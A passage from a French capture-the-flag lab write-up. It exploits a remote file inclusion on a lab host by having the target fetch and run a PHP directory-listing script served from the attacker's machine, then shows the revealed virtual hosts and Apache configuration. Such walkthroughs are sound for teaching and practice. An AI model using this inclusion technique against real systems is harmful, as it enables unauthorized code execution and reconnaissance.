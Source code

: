 On créé d'abord le script que l'on souhaite en local (*index.html*) :  

```php
<?php                                                                                                                  
$dir = '/etc/apache2/sites-enabled/';                                                                                  
$files = scandir($dir);                                                                                                

print_r($files);                                                                                                       
?>
```

Et on le sert avec un serveur web qui ne l'interprète pas (*python3 -m http.server)*.  

J'utilise enfin le script d'inclusion pour l'interpréter sur le serveur :  

```plain
http://888.darknet.com/img/inc.php?p=http://192.168.1.3:8000/
```

De cette façon on découvre un autre hôte virtuel :  

```plain
Array
(
    [0] => .
    [1] => ..
    [2] => 000-default
    [3] => 888.darknet.com
    [4] => signal8.darknet.com
)
```

Voici les fichiers de configuration correspondants à *000-default* et *signal8* :  

```plain
<VirtualHost *:80>
	ServerAdmin webmaster@localhost

	DocumentRoot /var/www
	<Directory />
		Options FollowSymLinks
		AllowOverride None
	</Directory>
	<Directory /var/www/>
		Options Indexes FollowSymLinks MultiViews
		AllowOverride None
		Order allow,deny
		allow from all
	</Directory>

	ScriptAlias /cgi-bin/ /usr/lib/cgi-bin/
	<Directory "/usr/lib/cgi-bin">
		AllowOverride None
		Options +ExecCGI -MultiViews +SymLinksIfOwnerMatch
		Order allow,deny
		Allow from all
	</Directory>

	ErrorLog ${APACHE_LOG_DIR}/error.log

	# Possible values include: debug, info, notice, warn, error, crit,
	# alert, emerg.
	LogLevel warn

	CustomLog ${APACHE_LOG_DIR}/access.log combined
```